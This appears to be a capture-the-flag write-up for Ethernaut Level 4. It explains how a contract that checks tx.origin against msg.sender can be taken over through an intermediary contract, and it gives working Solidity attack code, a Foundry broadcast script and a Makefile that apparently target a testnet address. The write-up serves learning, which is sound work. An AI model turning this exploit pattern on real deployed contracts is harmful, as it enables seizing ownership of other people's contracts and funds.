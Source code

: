 # Ethernaut Level 4

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

In the target contract, we can see that in the method `changeOwner`, if `tx.origin` is not the `msg.sender`, we can then alter the ownership and exploit the contract. Since `tx.origin` points to the origin of the transaction chain, while `msg.sender` refers to the adjacent caller of the function, they have fundemental differences. We can add a middle layer contract X to call the `changeOwner`, and then use our EOA to call the middle layer's correspondent function, so that we can meet the condition and solve the game.

`TelephoneAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract MiddleLayer {
    ITelephone target;

    constructor(address _targetAddress) {
        target = ITelephone(_targetAddress);
    }

    function attack() public {
        target.changeOwner(msg.sender);
    }
}
```

`Telephone.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Telephone} from "../src/Telephone.sol";
import {MiddleLayer, ITelephone} from "../src/TelephoneAttack.sol";

contract TelephoneScript is Script {
    address constant TARGET_ADDRESS = 0x2b493EFb3cfC84c1dF1f1711491E6bE53DE44789;
    Telephone telephone = Telephone(TARGET_ADDRESS);

    function run() public {
        vm.startBroadcast();
        console.log("Current owner:", telephone.owner());
        MiddleLayer middleLayer = new MiddleLayer(TARGET_ADDRESS);
        middleLayer.attack();
        vm.stopBroadcast();
        console.log("New owner:", telephone.owner());
    }
}
```

`Makefile`:

```makefile
include .env

SCRIPT := script/Telephone.s.sol:TelephoneScript
RPC_URL ?= $(SEPOLIA_RPC_URL)
ACCOUNT ?= default

deploy:
	forge script $(SCRIPT) --rpc-url $(RPC_URL) --account $(ACCOUNT) --broadcast -vvvv
```

